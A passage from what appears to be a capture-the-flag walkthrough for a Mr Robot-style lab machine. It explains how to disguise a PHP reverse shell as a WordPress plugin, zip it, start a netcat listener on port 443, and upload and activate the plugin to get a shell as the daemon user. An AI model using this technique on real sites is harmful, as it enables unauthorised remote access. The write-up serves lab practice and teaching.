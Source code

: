 As soon as we log in, we will have already obtained a shell revese to the user **daemon**.

### Upload of a fake plugin

To do so, go to Plugins -> Add New -> Upload Plugin.



We could use the payload mentioned in the previous section as is, but it will not comply with the format of a WordPress plugin... we will have to make our payload a valid plugin, to do this we will start by adding the following header to our payload.

```
/*

Plugin Name:  Reverse Shell

Plugin URI: http://mrrobot.com

Description: Shell

Version: 1.0

Author: Shockz

Author URI: http://mrrobot.com

Text Domain: Shell

Domain Path: /languages

*/
```

Now we need to pack everything in a zip file.

```bash
sudo zip reverse.zip php-reverse-shell.php
```

We will initiate a listener, as we expect a connection from our victim.

```bash
nc -lvp 443
```

Finally we will upload our payload ```reverse.zip```.



But this is not enough, now we have to activate it, for this we go back to Plugins and click on "Activate".



As soon as we activate it, we will have already obtained a shell revese to the user **daemon**.


## Continuing the exploitation
